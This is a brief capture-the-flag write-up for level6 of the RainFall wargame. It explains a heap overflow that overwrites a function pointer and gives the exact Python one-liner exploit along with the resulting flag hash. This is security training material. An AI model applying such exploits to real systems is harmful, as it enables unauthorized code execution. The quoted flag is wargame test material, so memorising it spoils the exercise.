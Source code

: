 Here, we need to overwrite the value of `m` . To do so, we will again do a buffer overflow. What we know also, is that if you do 2 mallocs in a row, you will get two address that are side by side. So, we can easily overflow our buffer and write inside `ppcVar1`  like so :

```bash
 ./level6 $(python -c 'print "A" * 64 + "\x54\x84\x04\x08" * 1000')
```

(It's a bit overkill but we could have done the same as level0-3 to find the right number so we overwrite only what we want, but we already did that at least 4 times).

>level6@RainFall:~$ ./level6 $(python -c 'print "A" * 64 + "\x54\x84\x04\x08" * 1000')
>f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d